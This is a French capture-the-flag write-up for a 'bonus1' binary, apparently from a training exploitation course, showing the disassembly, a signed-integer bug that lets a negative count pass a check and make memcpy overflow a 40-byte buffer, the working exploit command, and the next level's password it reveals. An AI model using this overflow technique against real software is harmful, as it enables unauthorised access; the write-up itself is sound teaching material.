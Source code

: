 # Bonus1

On observe un exécutable à la racine : `bonus1`

```shell
$ ./bonus1
Segmentation fault (core dumped)

$ ./bonus1 "Hello World"

$ ./bonus1 "Hello" "World"
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb bonus1 -q
Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:      push   ebp
   0x08048425 <+1>:      mov    ebp,esp
   0x08048427 <+3>:      and    esp,0xfffffff0
   0x0804842a <+6>:      sub    esp,0x40
   0x0804842d <+9>:      mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:     add    eax,0x4
   0x08048433 <+15>:     mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:     mov    DWORD PTR [esp],eax
   0x08048438 <+20>:     call   0x8048360 <atoi@plt>
   0x0804843d <+25>:     mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:     cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:     jle    0x804844f <main+43>
   0x08048448 <+36>:     mov    eax,0x1
   0x0804844d <+41>:     jmp    0x80484a3 <main+127>
   0x0804844f <+43>:     mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:     lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:     mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:     add    eax,0x8
   0x08048460 <+60>:     mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:     mov    edx,eax
   0x08048464 <+64>:     lea    eax,[esp+0x14]
   0x08048468 <+68>:     mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:     mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:     mov    DWORD PTR [esp],eax
   0x08048473 <+79>:     call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:     cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:     jne    0x804849e <main+122>
   0x08048482 <+94>:     mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:    mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:    mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:    call   0x8048350 <execl@plt>
   0x0804849e <+122>:    mov    eax,0x0
   0x080484a3 <+127>:    leave
   0x080484a4 <+128>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir une idée plus claire de `bonus1`

```shell
$ scp -P 4242 -r bonus1@192.168.56.102:/home/user/bonus1/bonus1 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage bonus1
```

_résultat sauvegardé dans [source.md](source.md)_

Notre objectif est de valider dans la condition `param1 == 0x574f4c46`.

Afin d'y parvenir, nous devons auparavant valider la condition `param1 < 10`

Il y a trois lignes importante dans cette executable

```C
if (param1 < 10) {
		memcpy(DestMem, param2, param1 * 4);
		if (param1 == 0x574f4c46) {
			...
		}
}
```

`DestMem` fait `40` octets et est suivi par `param1` sur la stack.
Nous pouvons donc, grace au `memcpy`, ecrire par dessus `param1`

`param1` doit valider la condition suivante `param1 < 10` et `param1 * 4 = 44`
(pour ecrire completement dans `DestMem` de taille `40` et ecrire sur note `param1` de taille `4`)

`param1` est un int. Nous pouvons donc utiliser cette propriete pour loop dans les nombres negatifs pour atteindre notre 44 tout en etant inferieur a 10

```shell
$ bc
44 - 2147483648 * 2
-4294967252

-4294967252 / 4
-1073741813
```

nous avons `param1 = -1073741813`, `param2` doit faire `40 octets + 4 octets` egal a `0x574f4c46`

Si l'on rassemble toute nos trouvaille

```shell
bonus1:$ ./bonus1 "-1073741813" `python -c 'print("A"*40 + "\x46\x4c\x4f\x57")'`
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
